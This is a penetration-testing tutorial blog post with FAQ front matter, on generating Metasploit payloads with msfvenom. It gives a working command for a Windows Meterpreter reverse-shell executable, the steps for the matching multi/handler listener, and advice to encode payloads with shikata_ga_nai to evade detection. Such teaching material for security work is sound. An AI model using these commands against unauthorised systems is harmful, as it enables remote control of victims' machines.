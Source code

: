 ```yaml
---
title: Metasploit Payload Generation Crafting Effective Exploits
date: 2024-10-11T17:30:00
image: /blogpics/apipicgen/MetasploitPayloadGenerationCraftingEffectiveExploits-BLVPMRL29T.jpg
categories: ["Cybersecurity"]
featured: false
draft: false
questions:
  - "What are the different types of payloads in Metasploit and how do they differ?"
  - "How do you generate a payload using msfvenom?"
  - "What steps are involved in setting up a listener in Metasploit to catch a payload connection?"
  - "What are some best practices to follow when crafting exploits with Metasploit?"
  - "Why is encoding payloads important and how can it be done in msfvenom?"
answers:
  - "Metasploit payloads are categorized into Singles, Stagers, Stages, and Meterpreter. Singles are self-contained payloads for simple tasks. Stagers are small payloads that establish a connection and download larger payloads. Stages are the larger payloads delivered by stagers to perform complex tasks. Meterpreter is a powerful payload providing an interactive shell and post-exploitation capabilities."
  - "You generate a payload with msfvenom by specifying the payload type, local host IP, local port, output format, and output file name using the syntax: msfvenom -p <payload> LHOST=<local_ip> LPORT=<local_port> -f <format> -o <output_file>. For example, to create a Windows reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o reverse_shell.exe."
  - "To set up a listener, start the Metasploit console with msfconsole, use the exploit/multi/handler module, set the payload to match the generated payload, configure LHOST and LPORT to your local IP and port, and then run the exploit command. This listener will catch the incoming connection when the payload is executed on the target."
  - "Best practices include understanding the target environment to select appropriate payloads, using encoding to evade detection, testing exploits in a controlled environment like a virtual lab, keeping Metasploit updated, and always following ethical guidelines by obtaining permission before testing systems."
  - "Encoding payloads helps evade detection by security solutions that recognize known payload signatures. In msfvenom, encoding can be done using the -e option followed by the encoder name, such as -e x86/shikata_ga_nai, which applies the Shikata Ga Nai encoder to the payload."
---
```

Metasploit is a powerful framework used for penetration testing and security research. One of its core functionalities is payload generation, which allows security professionals to create effective exploits that can be used to test the security of systems. In this blog post, we will explore the process of crafting effective exploits using Metasploit, focusing on payload generation, types of payloads, and best practices for their use.

## Understanding Payloads

In the context of Metasploit, a payload is a piece of code that is executed on a target system after a successful exploit. Payloads can perform a variety of actions, such as creating a reverse shell, executing commands, or establishing a persistent backdoor. Understanding the different types of payloads available in Metasploit is crucial for crafting effective exploits.

### Types of Payloads

1. **Singles**: These payloads are self-contained and do not require a separate handler. They are typically used for simple tasks, such as executing a command on the target system.

2. **Stagers**: Stagers are small payloads that establish a connection back to the attacker's machine. Once the connection is established, the stager downloads and executes a larger payload. This two-step process is useful for bypassing security measures that may block larger payloads.

3. **Stages**: These are the larger payloads that are delivered by the stager. They can perform complex tasks and are often used in conjunction with stagers to maintain a connection to the target.

4. **Meterpreter**: This is a powerful payload that provides an interactive shell on the target system. Meterpreter allows attackers to execute commands, upload and download files, and perform various post-exploitation tasks.

## Generating Payloads with Metasploit

To generate a payload using Metasploit, you typically use the `msfvenom` tool, which is part of the Metasploit Framework. `msfvenom` allows you to create custom payloads by specifying various options, such as the payload type, encoding, and output format.

### Basic Syntax

The basic syntax for generating a payload with `msfvenom` is as follows:

```bash
msfvenom -p <payload> LHOST=<local_ip> LPORT=<local_port> -f <format> -o <output_file>
```

- `-p <payload>`: Specifies the type of payload to generate (e.g., `windows/meterpreter/reverse_tcp`).
- `LHOST`: The local IP address of the attacker's machine.
- `LPORT`: The local port on which the attacker will listen for incoming connections.
- `-f <format>`: The output format (e.g., `exe`, `elf`, `raw`).
- `-o <output_file>`: The name of the output file.

### Example: Generating a Windows Reverse Shell

To create a Windows reverse shell payload, you can use the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o reverse_shell.exe
```

This command generates a Windows executable that, when executed on the target machine, will connect back to the attacker's machine at IP address `192.168.1.10` on port `4444`.

## Setting Up a Listener

Once you have generated your payload, you need to set up a listener on your machine to catch the incoming connection. This is done using the Metasploit console.

1. Start the Metasploit console:

   ```bash
   msfconsole
   ```

2. Use the `multi/handler` module to set up the listener:

   ```bash
   use exploit/multi/handler
   ```

3. Set the payload to match the one you generated:

   ```bash
   set payload windows/meterpreter/reverse_tcp
   ```

4. Configure the local host and port:

   ```bash
   set LHOST 192.168.1.10
   set LPORT 4444
   ```

5. Start the listener:

   ```bash
   exploit
   ```

Now, when the generated payload is executed on the target machine, it will connect back to your listener, providing you with a Meterpreter session.

## Best Practices for Crafting Effective Exploits

1. **Understand the Target Environment**: Before crafting an exploit, gather information about the target system, including its operating system, installed software, and network configuration. This knowledge will help you choose the most effective payload.

2. **Use Encoding**: Many security solutions can detect and block known payloads. To evade detection, consider encoding your payload using the `-e` option in `msfvenom`. For example, you can use `-e x86/shikata_ga_nai` to encode your payload.

3. **Test in a Controlled Environment**: Always test your exploits in a safe, controlled environment, such as a virtual lab. This practice helps you understand how the payload behaves and allows you to refine your approach without risking unintended consequences.

4. **Stay Updated**: The Metasploit Framework is continuously updated with new exploits and payloads. Regularly update your Metasploit installation to take advantage of the latest features and improvements.

5. **Follow Ethical Guidelines**: Always ensure that you have permission to test the systems you are targeting. Unauthorized access to computer systems is illegal and unethical.

## Conclusion

Crafting effective exploits using Metasploit's payload generation capabilities is a critical skill for penetration testers and security researchers. By understanding the types of payloads, mastering the use of `msfvenom`, and following best practices, you can enhance your ability to identify and exploit vulnerabilities in target systems. Remember to always operate within legal and ethical boundaries, and use your skills to improve security rather than compromise it.